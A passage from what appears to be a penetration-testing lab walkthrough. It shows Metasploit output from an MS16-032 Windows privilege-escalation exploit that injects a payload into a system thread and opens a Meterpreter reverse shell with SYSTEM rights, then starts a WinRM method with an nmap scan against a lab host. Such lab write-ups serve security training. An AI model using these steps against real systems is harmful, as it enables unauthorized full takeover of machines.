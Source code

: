 ```bash
[?] Operating system core count: 1
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 792

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[*] Injecting payload into thread: 792

[+] Successfully injected payload in thread: 792
[+] Successfully applied token to thread: 792
[?] Resuming thread..

[*] Sending stage (175686 bytes) to 10.0.19.243
[*] Meterpreter session 2 opened (10.10.31.2:4444 -> 10.0.19.243:49157) at 2025-01-27 13:44:19 +0530
[+] Deleted C:\Users\user1\AppData\Local\Temp\MvKdxlEUN.ps1

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

#### **🏆 Incredible Success! What This Achieved:**
- **Kernel Exploit Worked** - MS16-032 executed successfully  
- **New SYSTEM Session** - Session 2 opened with SYSTEM privileges
- **PowerShell Injection** - Payload injected into system process
- **Clean Exploitation** - Temporary files automatically deleted
- **Maximum Privileges** - NT AUTHORITY\SYSTEM achieved

---

## 🧪 Method 3: WinRM Service Exploitation

### **Step 1: Discover WinRM Service**

**What We're Doing:** Looking for Windows Remote Management service on the target

#### **Commands Used:**
```bash
nmap -sV -p 5985,5986 demo.ine.local
```

#### **What Happened:**
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-27 14:15 IST
Nmap scan report for demo.ine.local (10.0.28.125)
Host is up (0.0045s latency).

PORT     STATE SERVICE    VERSION
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5986/tcp open  ssl/http   Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/
Nmap done: 1 IP address (1 host up) scanned in 6.38 seconds
```
